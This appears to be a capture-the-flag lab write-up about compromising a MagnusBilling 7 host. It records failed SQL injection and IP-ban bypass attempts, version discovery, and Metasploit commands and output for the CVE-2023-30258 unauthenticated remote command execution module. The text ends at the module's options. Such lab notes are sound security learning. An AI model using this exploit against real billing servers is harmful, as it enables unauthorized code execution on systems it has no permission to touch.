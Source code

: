 # Unsuccessful Reconnaissance  
* Attempting SQL injection on the Login page gets our IP address banned and requires restarting the CTF
* The forgot password returns `{"success":false,"msg":"Email not found"}` although checking through source code of pages for email address to check came up empty. 
* Can we by-pass the IP blocking with X-forward-For and user-agent manipulation, no 
* Manaully searching all folders and files for anything that stood out

# Findings
* 10.10.228.140 directs us to http://10.10.228.140/mbilling/
* We see a loading screen for MagnusBilling and googling mbilling confirms MagnusBilling
* Googling suggest there should be a md file, which might contain version 
http://10.10.228.140/mbilling/README.md
```
###############
MagnusBilling 7 
###############
```
* Checking for exploits, we find  https://www.cve.org/CVERecord?id=CVE-2023-30258 for versions 6.* and 7* 

* There is an excellent rating exploit on Metasploit for CVE-2023-30258
```
msf6 > search CVE-2023-30258

Matching Modules
================

   #  Name                                                        Disclosure Date  Rank       Check  Description
   -  ----                                                        ---------------  ----       -----  -----------
   0  exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258  2023-06-26       excellent  Yes    MagnusBilling application unauthenticated Remote Command Execution.
   1    \_ target: PHP                                            .                .          .      .
   2    \_ target: Unix Command                                   .                .          .      .
   3    \_ target: Linux Dropper   
```

```
  use 0
  set target 2
  SHOW OPTIONS
  
  Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /mbilling        yes       The MagnusBilling endpoint URL
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host

```
